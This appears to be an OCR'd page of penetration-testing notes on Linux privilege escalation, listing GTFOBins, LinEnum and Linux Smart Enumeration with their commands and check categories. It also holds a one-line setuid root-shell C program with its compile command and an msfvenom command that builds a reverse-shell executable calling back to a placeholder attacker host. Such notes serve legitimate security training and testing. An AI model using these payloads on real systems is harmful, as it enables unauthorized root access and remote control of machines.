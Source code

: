		- URL

			- gtfobins.github.io

	- Custom (rootbash)

		- int main() {setuid(0);system("/bin/bash -p");}
		- $ gcc -o $NAME $FILE

	- MSFVenom

		- msfvenom-p linux/x86/shell_reverse_tcp LHOST=$IP LPORT=$PORT$ -f elf > shell.elf

	- Reverse Shell Generator

		- https://github.com/mthbernardes/rsg

	- Linux Smart Enumeration

		- Commands

			- $ ./lse.sh -l 1

		- URL

			- https://github.com/diego-treitos/linux-smart-enumeration

		- Categories Performed

			- User related tests
			- Sudo related tests
			- File system related tests
			- System related tests
			- Security measures related tests
			- Recurrent tasks related tests
			- Network related tests
			- Services related tests
			- Processes related tests
			- Software related tests
			- Container related tests

	- LinEnum

		- Command

			- $ ./linenum -s -r Output_LinEnum.txt -e /tmp/ -t

		- URL

			- https://github.com/rebootuser/LinEnum

		- Categories Performed

			- Kernel and Distribution
			- System Information
			- User Information
			- Privilege Access
			- Enviromental
			- Jobs/Tasks
			- Services
			- Version Information
			- Default/Weak Credentials
			- Useful File Searches
			- Platform/Software Tests
